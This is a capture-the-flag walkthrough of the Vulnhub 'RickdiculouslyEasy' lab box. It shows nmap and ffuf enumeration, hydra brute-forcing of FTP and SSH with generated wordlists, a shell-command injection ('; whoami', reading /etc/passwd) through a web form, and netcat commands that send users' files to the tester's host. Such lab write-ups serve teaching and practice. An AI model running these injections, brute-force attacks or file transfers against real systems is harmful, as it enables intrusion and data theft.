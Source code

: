 *2021-08-23*

*kimm3*

# Walkthrough: RickdiculouslyEasy
Platform: Vulnhub

Difficulty: Easy

- [Link](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/)

This is a funny themed box, consisting of several flags, with a possible score of 130 points. In the last heading of this document, there's a summary of flag points and where to find them.

## Setup
![dhcpd](assets/markdown-img-paste-20210824032436697.png)

![ll](assets/markdown-img-paste-20210824032456284.png)

## Scans and enumeration
```
export IP=192.168.10.2
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```
![nmap-init](assets/markdown-img-paste-20210824033312126.png)

## Intial flags

First flag at port 13337, nmap aggressive scan reveals it too us. If it didn't we could have used netcat to retrieve the text.

![nc13337](assets/markdown-img-paste-20210824033449801.png)

**Score: 10 points**

Lets start with the really easy stuff.

![ftp-flag](assets/markdown-img-paste-20210824033750873.png)

![ftp-flag-txt](assets/markdown-img-paste-20210824033818116.png)

The ftp service accepts anonymous logins, use the username anonymous and any password.

**Score: 20 points**

`nc $IP 60000`

![reverse-shell](assets/markdown-img-paste-20210824034122269.png)

**Score: 30 points**

![index-p80](assets/markdown-img-paste-20210824083235912.png)

Nothing at index port 80.

![flag-9090](assets/markdown-img-paste-20210824034427873.png)

**Score: 40 points**

Also a login page, but no password field.

![ffuf-httpindex](assets/markdown-img-paste-20210824034910517.png)

![http-passwords](assets/markdown-img-paste-20210824034948406.png)

```
curl "http://192.168.10.2/passwords/FLAG.txt" > foundfiles/flagpasswords.txt
curl "http://192.168.10.2/passwords/passwords.html" > foundfiles/passwords.html
```
![flagfrompasswordstxt](assets/markdown-img-paste-20210824035137501.png)

![flagfrompasswordshtml](assets/markdown-img-paste-20210824035233126.png)

**Score: 50 points**

## Trying winter
**Bruteforcing with the password 'winter'**

We got a password of winter, no username. Let's start with morty or rick.

```
hydra $IP -L creds/users.txt -P creds/pass.txt ftp | tee scans/hydra-ftp-small.txt
hydra $IP -L creds/users.txt -P creds/pass.txt ssh | tee scans/hydra-ssh-small.txt
hydra $IP -L creds/users.txt -P creds/pass.txt -s 22222 ssh | tee scans/hydra-ssh22222-small.txt
```

![ftpnogo](assets/markdown-img-paste-20210824041613485.png)

![sshnotconnect](assets/markdown-img-paste-20210824041633269.png)

![ssh2ndnogo](assets/markdown-img-paste-20210824041645697.png)

SSH port 22 couldn't connect, and the others didn't work. I tried common username wordlists, and generating one with 'cupp.py' for 'morty smith'.

## Back to enumerating
Let's go back to enumerating. Let's do a broader search to see if missed something in the previous scan.

```
# Added slash to find more dirs.
ffuf -u "http://192.168.10.2/FUZZ/ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt -of -o scans/ffuf-index80-with-slash

# Extension search
extensions=$(cat sl/Discovery/Web-Content/web-extensions.txt | tr "\n" ",")

ffuf -u "http://192.168.10.2/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -e $extensions -of -o scans/ffuf-widesearch
```

There's a cgi-bin folder, but everything inside seems to be forbidden(403). A text file called 'robots.txt' is in the index folder.

![robotstxt](assets/markdown-img-paste-20210824052521855.png)

![rootshell](assets/markdown-img-paste-20210824052611452.png)

Too bad.

![tracertool](assets/markdown-img-paste-20210824052722269.png)

![tracert-test](assets/markdown-img-paste-20210824052750145.png)

Typing `; whoami` in the search box. As in running two commands on the same line, works.

![whoami](assets/markdown-img-paste-20210824053022354.png)

## Foothold
Typing `;head -n 100 /etc/passwd` we get the usernames. (`cat` prints out a cat in this box, lol).

![etcpasswd](assets/markdown-img-paste-20210824060720125.png)

We've tried the password winter with users 'RickSanchez' and 'Morty' earlier, but there's another user, 'Summer'.

![summer-success](assets/markdown-img-paste-20210824060838986.png)

It works on both ftp and SSH. With both services, we can get to the same flag.

![ftp-flag](assets/markdown-img-paste-20210824060925820.png)

![ssh-flag](assets/markdown-img-paste-20210824061053981.png)

**Score: 60 points**

We have read access in both Ricks and Mortys home folders.

![mortyhome](assets/markdown-img-paste-20210824061204462.png)

![rickhome](assets/markdown-img-paste-20210824061350683.png)

Let's get the files for offline investigation.

```
nc -w 3 192.168.10.1 1234 < RickSanchez/RICKS_SAFE/safe
nc -w 3 192.168.10.1 1234 < Morty/journal.txt.zip
nc -w 3 192.168.10.1 1234 < Morty/Safe_Password.jpg
```

![Safe_password](assets/markdown-img-paste-20210824075323512.png)

There's a password inside the image, view it with at tool in the terminal, I used `strings`.

![journaltxt](assets/markdown-img-paste-20210824075445869.png)

A flag and a password.

**Score: 80 points**

![runsafe](assets/markdown-img-paste-20210824075717627.png)

Running with password from journal.txt.

![runsafepw](assets/markdown-img-paste-20210824075748888.png)

**Score: 100 points**

The band name is 'Flesh Curtains'. Let's generate som passwords.

![band-name](assets/markdown-img-paste-20210824080145220.png)

```
mp64 ?u?dflesh -o flesh.txt
mp64 ?u?dcurtains -o curtains.txt
cat flesh.txt curtains.txt fleshcurtains.txt
hydra $IP -f -l RickSanchez -P creds/fleshcurtains.txt -f ftp | tee scans/hydra-rickftp.txt

# With leading cap letters
mp64 ?u?dFlesh -o Flesh.txt
mp64 ?u?dCurtains -o Curtains.txt
cat Flesh.txt Curtains.txt FleshCurtains.txt
hydra $IP -f -l RickSanchez -P creds/FleshCurtains.txt -f ftp | tee scans/hydra-rickftp-capital.txt
```

![ftpricksuccess](assets/markdown-img-paste-20210824081637302.png)

And from here it's pretty straight forward.

![sshandroot](assets/markdown-img-paste-20210824081844746.png)

## Summary of flags
| Points | Service/location |
| - | - |
| 10 | Port 13337 |
| 10 | FTP service, anonymous |
| 10 | half baked reverse shell, port 60000 |
| 10 | http,port 9090 |
| 10 | http, passwords folder |
| 10 | Summer home folder |
| 20 | journal.txt.zip |
| 20 | safe |
| 30 | root folder |
